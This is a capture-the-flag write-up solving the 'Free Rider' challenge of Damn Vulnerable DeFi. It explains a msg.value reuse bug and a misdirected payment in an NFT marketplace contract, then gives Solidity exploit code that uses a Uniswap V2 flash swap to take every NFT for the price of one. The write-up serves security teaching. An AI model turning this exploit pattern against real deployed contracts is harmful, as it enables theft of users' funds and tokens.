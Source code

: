 # Damn Vulnerable DeFi #10 - Free Rider - Solution

## Summary

This article outlines a solution for Damn Vulnerable DeFi Challenge #10: *Free Rider*.
Two key vulnerabilities were exploited:
  * **Improper `msg.value` reuse in loops**, leading to faulty payment validation.
  * **Incorrect payment distribution**, where funds were mistakenly sent to the buyer instead of the seller.
The challenge also highlights the existence and potential use of Uniswap V2’s flash loan feature.

## Link to the challenge

[https://www.damnvulnerabledefi.xyz/challenges/free-rider/](https://www.damnvulnerabledefi.xyz/challenges/free-rider/)

## The Challenge

```
A new marketplace of Damn Valuable NFTs has been released! There’s been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

A critical vulnerability has been reported, claiming that all tokens can be taken. Yet the developers don’t know how to save them!

They’re offering a bounty of 45 ETH for whoever is willing to take the NFTs out and send them their way. The recovery process is managed by a dedicated smart contract.

You’ve agreed to help. Although, you only have 0.1 ETH in balance. The devs just won’t reply to your messages asking for more.

If only you could get free ETH, at least for an instant.
```

## Vulnerability Survey

### Improper `msg.value` Reuse in Loops

Although the `buyMany()` function is protected against reentrancy, the `_buyOne()` function reuses `msg.value` without updating it on each iteration. This causes a flaw where the same `msg.value` is applied across multiple iterations.

Let’s illustrate this with a simple table:

| id  | priceToPay | total  | msg.value | sold? | commentary                              |
|-----|------------|--------|-----------|-------|-----------------------------------------|
| 0   | 15 ETH     | 15 ETH | 15 ETH    | yes   | OK                                      |
| 1   | 15 ETH     | 30 ETH | 15 ETH    | yes   | Wait! Why? You should have discounted it before |
| 2   | 15 ETH     | 45 ETH | 15 ETH    | yes   | Still using the same `msg.value`, causing improper validation |


This behavior occurs due to the following code:

```solidity
function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
    for (uint256 i = 0; i < tokenIds.length; ++i) {
        unchecked {
            _buyOne(tokenIds[i]);
        }
    }
}

function _buyOne(uint256 tokenId) private {
    uint256 priceToPay = offers[tokenId];
    if (priceToPay == 0) {
        revert TokenNotOffered(tokenId);
    }

    if (msg.value < priceToPay) {
        revert InsufficientPayment();
    }

    --offersCount;

    // transfer from seller to buyer
    DamnValuableNFT _token = token; // cache for gas savings
    _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

    // pay seller using cached token
    payable(_token.ownerOf(tokenId)).sendValue(priceToPay);

    emit NFTBought(msg.sender, tokenId, priceToPay);
}
```

### Incorrect Payment Distribution

To add to the contract's issues, let’s examine this snippet from `_buyOne()`:

```solidity
_token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

// pay seller using cached token
payable(_token.ownerOf(tokenId)).sendValue(priceToPay);
```

In this case, the NFT is transferred to the buyer first, making them the owner of the token. The next line then sends the payment to the owner, which is now the buyer, allowing them to receive the funds instead of the seller.

## Solution

### Issue a Flash Loan

To execute the attack, we need at least the price of one NFT (we only have 0.1 ETH!). Flash swaps are a built-in feature of Uniswap V2 [Reference](https://docs.uniswap.org/contracts/v2/reference/smart-contracts/pair#swap-1).

For regular swaps, `data.length` must be 0. However, if `data.length > 0`, the `uniswapV2Call()` function is invoked, passing the `data` parameter back to the caller.

Here’s the relevant code to initiate the swap:

```solidity
function test_freeRider() public checkSolvedByPlayer {
    uniswapPair.swap(
        NFT_PRICE,
        0,
        address(this),
        abi.encode(0)
    );
}
```

The `onERC721Received()` function also needs to be implemented as shown below:

```solidity
function onERC721Received(address, address, uint256, bytes calldata)
    external pure returns (bytes4) {
    return IERC721Receiver.onERC721Received.selector;
}
```

### Exploit `buyMany()`

The `buyMany()` function iterates over the provided IDs and calls `_buyOne()` for each NFT. However, because `msg.value` is reused across iterations, an attacker can use the value of the most expensive item to bypass validation and acquire all requested items in a single transaction.

The rest of the attack involves cleanup steps: sending the NFTs to the `RecoveryManager` contract, repaying the flash loan (including minting WETH to cover the fee), and transferring all collected ETH to the `player` account.

Here’s the full exploit code:

```solidity
function uniswapV2Call(address, uint256 amount, uint256, bytes calldata) external {
    uint256[] memory ids = new uint256[](AMOUNT_OF_NFTS);
    for (uint256 i = 0; i < AMOUNT_OF_NFTS; i++) {
        ids[i] = i;
    }
    marketplace.buyMany{value: NFT_PRICE}(ids);

    // Recovery Manager interaction
    bytes memory data = abi.encode(address(this));
    for (uint256 i = 0; i < AMOUNT_OF_NFTS; i++) {
        nft.safeTransferFrom(address(this), address(recoveryManager), i, data);
    }

    // Repay the flash loan
    uint256 fee = ((amount * 3) / 997) + 1;
    weth.deposit{value: fee}();
    uint256 amountToRepay = amount + fee;
    weth.transfer(address(uniswapPair), amountToRepay);

    // Send the bounty to the player
    payable(player).transfer(BOUNTY);
}
```

